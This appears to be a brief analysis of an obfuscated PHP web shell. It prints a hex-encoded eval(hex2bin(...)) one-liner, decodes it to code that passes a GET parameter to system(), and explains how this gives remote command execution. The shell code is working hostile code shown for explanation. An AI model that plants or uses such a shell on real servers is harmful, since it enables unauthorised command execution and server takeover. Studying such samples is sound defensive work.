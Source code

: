 
```bash
<?php
eval(hex2bin("69662824785f3d245f4745545b305d297b73797374656d2824785f293b7d"));
?>
```


Decoded hex string:

```bash
if($x=$_GET[0]){system($x);}
```

This PHP code is designed to enable **remote command execution (RCE)**, which means it can run system commands sent by a user via a GET request. Here's a breakdown:

1. `$x = $_GET[0];`
    
    - This retrieves a value from the URL query parameter `0`. So if someone visits `example.com/script.php?0=whoami`, then `$x` will contain `"whoami"`.
        
2. `system($x);`
    
    - This executes whatever is stored in `$x` as a system command on the server.
        
3. **Hex encoding & decoding:**
    
    - The actual payload inside `eval(hex2bin(...))` is just an obfuscated way of writing the same command execution logic.
        
    - `hex2bin()` converts a hexadecimal-encoded string back into readable PHP code, and `eval()` runs it dynamically.